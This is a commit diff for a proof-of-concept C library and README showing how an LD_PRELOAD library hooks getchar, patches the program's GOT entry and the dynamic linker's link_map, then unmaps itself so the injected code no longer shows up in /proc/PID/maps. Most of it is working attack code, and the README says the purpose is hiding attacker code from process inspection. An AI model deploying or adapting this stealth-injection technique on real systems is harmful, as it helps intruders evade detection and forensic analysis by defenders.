

Code improvement. Getting rid of magic numbers

Changed region(s): [[0.0, 0.0, 1.0, 1.0], [0.8358, 0.6873, 0.9851, 0.7171], [0.6269, 0.6873, 0.7761, 0.7171]]

diff --git a/test.c b/test.c
@@ -1,88 +1,260 @@
 #define _GNU_SOURCE
-
 #include <stdio.h>
 #include <stdlib.h>
 #include <string.h>
+#include <stddef.h>
+
+#include <elf.h>
+#include <stdint.h>
 
 #include <dlfcn.h>
 #include <errno.h>
 #include <unistd.h>
 #include <sys/mman.h>
 #include <arpa/inet.h>
+
 #include <link.h>
 
+// This is the C function the LD_PRELOAD library will overrite
+#define HOOK getchar
+#define HOOK_STR "getchar"
+
+// Assembler code to unmap library memory
 int _delete (int ptri, int size);
 
-//static int initialised = 0;
-//extern long _GLOBAL_OFFSET_TABLE_;
-#define HOOK getchar 
+/******************************************
+ * Helper functions
+ *******************************************/
 
-//__attribute__((constructor)) int startup () {
-int HOOK() {
-  long            ptr;
-  unsigned char  *code, *orig;
-  int            v, (*f)();
-  long           size = 0x1000;  // PAGE size
+// Get Dynamic section of an ELF mapped in memory
+// Returns a pointer to the section and the number of entries in size
+Elf64_Dyn*
+get_dynsection (void *prg, size_t *size) {
+  Elf64_Ehdr *ehdr = (Elf64_Ehdr *)prg;
   
-  // Print PID for convenience
-  printf ("DEBUG: PID %ld\n", getpid());
+  /* Program header table */
+  Elf64_Phdr *phdr = (Elf64_Phdr *)((uint8_t *)prg + ehdr->e_phoff);
+  Elf64_Dyn  *dyn = NULL;
+  size_t      dyn_cnt = 0;
+  
+  /* Locate PT_DYNAMIC segment */
+  for (int i = 0; i < ehdr->e_phnum; i++) {
+    if (phdr[i].p_type == PT_DYNAMIC) {
+      dyn = (Elf64_Dyn *)((uint8_t *)prg + phdr[i].p_offset);
+      dyn_cnt = phdr[i].p_filesz / sizeof(Elf64_Dyn);
+      break;
+    }
+  }
+  
+  if (!dyn) {
+    fprintf(stderr, "No PT_DYNAMIC segment found.\n");
+    return NULL;
+  }
+  
+  *size = dyn_cnt;
+  
+  return dyn;
+}
 
-  // Calculate beginning of page... should use sysconf
-  ptr = ((long)HOOK & 0xFFFFFFFFFFFFF000);
-  
-  printf ("DEBUG: HOOK: %p page%p\n", HOOK, ptr);
 
-  // Stop before doing anything to check default memory map
-  getc (stdin);
+// Gets the GOT pointer for a given symbol
+// Returns an absolute pointer, base has to be the current memory base address
+void *
+get_got_ptr (void *base, Elf64_Dyn *dyn, int dyn_count, Elf64_Ehdr *ehdr, const char *name)
+{
+  /* Extract dynamic section pointers */
+  Elf64_Sym  *symtab = NULL;
+  char       *strtab = NULL;
+  Elf64_Rela *jmprel = NULL;
+  size_t     pltrelsz = 0;
+  int        pltrel_type = 0;
   
-  // Allocate memory for unmaping code
-  code = mmap (NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC,
-	       MAP_ANON | MAP_PRIVATE, 0, 0);
-  orig  = (unsigned char*)ptr;
-  
-  printf ("DEBUG: Copying memory from %p to %p\n", orig, code);
-  for (int i =0; i < size; i++) {
-    code[i] = orig[i];
+  for (size_t i = 0; i < dyn_count; i++) {
+    switch (dyn[i].d_tag) {
+    case DT_SYMTAB:   symtab      = (Elf64_Sym *)(base + dyn[i].d_un.d_ptr); break;
+    case DT_STRTAB:   strtab      = (char *)(base + dyn[i].d_un.d_ptr); break;
+    case DT_JMPREL:   jmprel      = (Elf64_Rela *)(base + dyn[i].d_un.d_ptr); break;
+    case DT_PLTRELSZ: pltrelsz    = dyn[i].d_un.d_val; break;
+    case DT_PLTREL:   pltrel_type = dyn[i].d_un.d_val; break;
+    }
   }
 
-  // Calculate offset to unmaping code
-  f = code + ((unsigned char*)_delete-orig);
-  printf ("DEBUG: delete: %p  new_delete: %p\n", _delete, f);
+  if (!symtab || !strtab || !jmprel || pltrel_type != DT_RELA) 
+    return NULL;
+  
+  size_t count = pltrelsz / sizeof(Elf64_Rela);
+  
+  /* Iterate PLT relocations */
+  for (size_t i = 0; i < count; i++) {
+    Elf64_Rela *r = &jmprel[i];
+    
+    unsigned sym_index = ELF64_R_SYM(r->r_info);
+    const char *sym_name = &strtab[symtab[sym_index].st_name];
+    
+    if (strcmp(sym_name, name) == 0) {
+      /* GOT entry location */
+      void *got_entry_address = (uint8_t *)base + r->r_offset;
+      return got_entry_address;
+    }
+  }
+  
+  return NULL;
+}
 
+
+// Get DT_PLTGOT from the provided dynamic section
+void*
+get_pltgot (Elf64_Dyn  *dyn, size_t dyn_cnt) {
+  
+  /* Search for DT_PLTGOT entry */
+  for (size_t i = 0; i < dyn_cnt; i++) {
+    if (dyn[i].d_tag == DT_PLTGOT) {
+      /* DT_PLTGOT is usually an address in memory space, not an offset */
+      void *pltgot = (void *)dyn[i].d_un.d_ptr;
+      return pltgot;
+    }
+  }
+  
+  fprintf(stderr, "DT_PLTGOT not found.\n");
+  return NULL;
+}
+
+int dump (long *p) {
+  for (int i= 0; i <512;i++)
+    printf ("%p [%4d] %p\n", p+i, i*8, p[i]);
+}
+
+int HOOK () {
+  char          buffer[1024];
+  char          *binary_name;
+  unsigned char *prog;
+  FILE          *f;
+  long           ptr, pagesize;
+  unsigned char  *code, *orig;
+  int            v, (*func)();
+  long           mem_start;
+  char           *aux;
+  int            (*original_hook)();
+
+  
+  // Get Process cmdline (process name)
+  if ((f = fopen ("/proc/self/cmdline", "rt")) == NULL) {
+    perror ("fopen:");
+    return -1;
+  }
+  fgets (buffer, 1024, f);
+  fclose (f);
+  aux = buffer + strlen(buffer);
+  while (*aux != '/' && aux > buffer) aux--;
+  binary_name = strdup (*aux == '/' ? aux + 1 : aux);
+  printf ("DEBUG: Process %ld '%s´\n", getpid(), binary_name);
+
+  // Get Process base address
+  if ((f = fopen ("/proc/self/maps", "rt")) == NULL) {
+    perror ("fopen:");
+    return -1;
+  }
+  while (!feof(f)) {
+    fgets (buffer, 1024, f);
+    //printf ("-- Testing %s\n", buffer);
+    // TODO:
+    // Store base address of the different modules found
+    // and pass them to the _delete function
+    // --------------------------
+    // Memory map is sorted by address, the first address is the lower
+    if (strstr (buffer, binary_name) == NULL) continue;
+    else break; 
+  };
+  fclose (f);
+  if ((aux = strchr (buffer, '-')) == NULL) {
+    printf ("Malformed memory map entry\n");
+    return -1;
+  }
+  *aux=0;
+  sscanf (buffer, "%lx", &mem_start);
+  printf ("DEBUG: Process mapped at: 0x%lx \n", mem_start);
+  // Got the ELF Mapped segment
+  prog = (unsigned char *)mem_start;
+
+  // Now we have to patch the HOOK function to the one provided by the next
+  // library in the search chain, otherwise we will be called again and again
+  // Also as the memory will be unmapped when we are done, any further
+  // call to HOOK will crash the main program.
+
+  // Get next HOOK pointer in the shared library list
+  // HOOK would usually be a libc function like getchar,...
+  original_hook = dlsym(RTLD_NEXT, HOOK_STR);
+  printf ("DEBUG: Original %s: %p\n", HOOK_STR, original_hook);
  
-  // Get return address from stack so we can calculate the main program GOT
-  long *got, base;
-  __asm__ (".intel_syntax noprefix\n"
-  	   "mov rax, [rsp +88]\n"
-	   "mov %0, rax\n"
-	   ".att_syntax\n"
-	   : "=r"(got)::"rax");
+  // Get DT_PCLGOT (pointer to .got.plt)
+  size_t     d_size = 0;
+  Elf64_Dyn  *dyn = get_dynsection(prog, &d_size);
+  long got1 = (long) get_pltgot (dyn, d_size);
+  printf ("DEBUG: PLTGOT located at: %p + %p = %p\n",
+	  mem_start, got1, mem_start+got1);
+  
+  // Get HOOK function's  PLT entry
+  long *hook_got = get_got_ptr (prog, dyn, d_size, (Elf64_Ehdr *)prog, HOOK_STR);
+  printf ("DEBUG: %s_got entry : %p\n", HOOK_STR, hook_got);
 
-  printf ("DEBUG: RETURN ADDress: %p\n", got);
+  // If RELO is activated we may have to change permissions. 
+  //mprotect (mem_start + 0x4000, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC);
+  *(long*)(hook_got) = (long)original_hook;
 
-  // Get base address... This may be retrieved from /proc/PID/maps
-  base = ((long)got & 0xFFFFFFFFFFFFF000);
+  // Now remove library from the search list
+  // we should actually remove it from the l_scope field in the link_map
+  // What we do below is what is causing the error when the program finish
+  // However the change below actually prevents to use the library in resolving
+  // new symbols.
+  
+  long *got = (long*)(mem_start + got1);
 
-  // 0x3f8 is PLTGOT value from Dynamic section (check readelf)
-  // The code is mapped one page above the base address
-  got = base +   0x3fe8 - 0x1000;
-
-  // Navigate the link_map to find ourselves
+  // Navigate got[1] (link-map_) to find ourselves
   struct link_map *p = (struct link_map*) got[1];
-  printf ("DEBUG: GOT: %p -> GOT[1] (link_map) -> %p\n", got, got[1]);
+  printf ("DEBUG: GOT: %p -> GOT[1] -> %lx\n", got, got[1]);
+
   while (p) {
+    printf ("DEBUG: => '%s' %p", p->l_name, p->l_ld);
     if (strstr (p->l_name, "test")) {
       // When found, patch libname so the library won't be used for
       // symbol resolution
+      printf ("  **PATCHED**");
+      //dump (p);
+      // TODO: We should actually patch l_scope in link_map
       *((long*)((unsigned char *)p + 40)) = 0;
     }
+    printf ("\n");
     p = p->l_next;
   }
+  
+  // Copy over the _delete function so the program doesn't crash
+  // when we unmap the memory
+  
+  // Calculate beginning of page library code page
+  pagesize = getpagesize ();
+  ptr = ((long) HOOK & ~(pagesize - 1));
+  printf ("DEBUG: HOOK: %p  HOOK Page:%p (pagesize 0x%x)\n",
+	  HOOK, ptr, pagesize);
 
-  printf ("DEBUG: About to Unmap %p, %ld\n", orig, size);
+  // TODO: GEt this from memory map. Usually code is one page away from PHDR
+  unsigned char *pt = (unsigned char*)ptr - 0x1000;
+  //printf ("%02X %02X %02X %02X\n", pt[0], pt[1], pt[2], pt[3]); // this shows ELF Magic
+  
+  // Allocate memory to copy memory unmapping code over
+  code = mmap (NULL, pagesize, PROT_READ | PROT_WRITE | PROT_EXEC,
+	       MAP_ANON | MAP_PRIVATE, 0, 0);
+  orig  = (unsigned char*)ptr;
+ 
+  printf ("DEBUG: Copying memory from %p to %p\n", orig, code);
+  memcpy (code, orig, pagesize);
+  
+  // Calculate offset to the _delete function in the new allocated block
+  func = (int (*)()) (code + ((unsigned char*) _delete - orig));
+  printf ("DEBUG: delete: %p  new_delete: %p\n", _delete, f);
+  
+  printf ("DEBUG: About to Unmap %p, %ld\n", orig, pagesize);
   printf ("DEBUG: Original PRELOAD execution finish here\n");
   printf ("DEBUG:-----------------------------------------\n");
-	printf ("DEBUG: Press any key to delete and return to main program\n");
   getc (stdin);
   
   __asm ( ".intel_syntax noprefix\n"
@@ -90,10 +262,8 @@ int HOOK() {
 	  "mov rsi, %1\n"   // RSI = val
 	  "jmp %2\n"         // jump to *target
 	  :
-	  : "r"(orig), "r"(size), "r"(f)
+	  : "r"(orig), "r"(pagesize), "r"(func)
 	  : "rdi", "rsi"
 	  );
   
 }
-
-

diff --git a/hello.c b/hello.c
@@ -15,6 +15,7 @@ int main () {
 	// getc will fire the symbol resolution... we had removed test.so 
 	// from the process otherwise the program will crash
 	getc(stdin);
+	getchar();
 	printf ("Finishing Main App\n");
 	return 0;
 }

diff --git a/README.md b/README.md
@@ -13,26 +13,29 @@ Anyhow, the process of running a dynamic binary is more or less  like this:
 
 Then the dynamic linker finish preparation for the execution: code relocation, library loading, etc.. getting everything ready to allow the execution and make the dynamic symbol resolution work.
 
-At this point, all dynamic libraries, including the `LD_PRELOAD` ones are loaded in memory and the program `GOT` (_Global Offset Table_) is ready to be used for dynamic linking magic. 
+At this point, all dynamic libraries, including the `LD_PRELOAD` ones are loaded in memory and the program `GOT` (_Global Offset Table_) and `PLT` (_Procedure Linkage Table_) is ready to be used for dynamic linking magic. 
 
-The first three entries in the `GOT` are special and not used for the main program function name resolution. Specially the second one is interesting for us because it is the so-called `link_map`, a linked list that contains all libraries required by the process.
+The first three entries in the `PLT` (`.got.plt` section) are special and not used for the main program for function name resolution. Specially the second one is interesting for us because it is the so-called `link_map`, a linked list that contains all libraries required by the process.
 
 With this background, let's see how to get rid of the original `LD_PRELOAD` library, so it won't show up at places like `/proc/PID/maps`.
 
-Note that the goal here is not overwrite functions on the program, but to inject code in a program coming from a library that won't show up in the process memory map.
+Note that the goal here is not to overwrite functions on the program, but to inject code in a program coming from a library that won't show up in the process memory map.
 
 # Technique
 
-The preload library would hook some function used by the main program and, whenever the main program runs that function, the preloaded library will get the control.
+The preload library would hook a function used by the main program and, whenever the main program runs that function, the preloaded library will get the control.
 
 Then the function would do whatever the attacker tries to achieve, and once it's done, the attacker wants the library/code to disappear. This can be done following the steps below:
 
+* Figure out the main program address in case it is a PIE binary. We can do this parsing `/proc/self/maps`
+* For the function being hooked, find the next instance in the available libraries (`dlsym RTLD_NEXT`)
+* Find the PLT entry for the hooked function and patched with the next candidate found in previous step. This way, future calls to the hooked function won't crash the program.
+* Get the main program `GOT` table to access the process `link_map`. Note that we need the main program `GOT` not our owns library `GOT`.
+* Find the entry associated to the preload library
+* Null the `l_ns` fields (`offset + 40`). This will prevent the dynamic linker to try to use our library in future symbol lookup by the main program. I believe we really need to patch `l_scope` but I'm having troubles finding the field
 * Allocate memory to copy over whatever code the attacker needs to maintain once the function returns. Part of this code is the memory clean-up function that is mandatory to copy.
 * Copy over the code/data required for later, as a minimum (as indicated above) the memory clean-up function).
 * Recalculate code position for the memory clean-up code that needs to be call before leaving the function.
-* Get the main program `GOT` table to access the process `link_map`. Note that we need the main program `GOT` not our owns library `GOT`.
-* Find the entry associated to the preload library
-* Null the `l_libname` fields (`offset + 40`). This will prevent the dynamic linker to try to use our library in future symbol lookup by the main program.
 * Call the memory clean-up function. This is performed with a `jmp` instruction as we do not want to mess up the stack
 * The memory clean-up function is now running on an anonymous memory block (no backed file associated) and can now unmap the original library memory blocks. We pass over the base segment. Current implementation just assume there will be 4 pages for the library... This may have to be updated or properly calculated by the library.
 
@@ -44,11 +47,9 @@ This is a Proof Of Concept. Some values have just been hardcoded for this specif
 
 The unmapping function was implemented in asm to simplify the copy over process and avoid to work out potential relocations.
 
-There are two issues with the current implementation:
+There are one issue with the current implementation:
 
-* There is an error when the main application finishes. The destructor of the `test.so` library is being executed, but the memory is no longer there and the program ends with an error. May be possible to avoid the execution of the destructor or copy over the destructor code and patch the relevant dynamic linker structures. 
-
-* If the hook functions get called again, the program will crash. The name was already resolved the first time the function was executed but we had removed the memory afterwards so the `GOT` pointer is pointing to a unmapped memory block. We should restore the `GOT` entry associated to hook function used.
+* There is an error when the main application finishes. As we set the `l_ns` field to `NULL` that fires an assertion at run-time when from `dl-fini` function. This may get fixed when parsing `l_scope` instead of `l_ns`.
 
 Also note that I mess up with some fields in `link_map` that are internal and may change on future versions of the dynamic linker, and break the patching of `link_map`. For this development I used GlibC 2.36 you can see the `link_map` struct here:
 
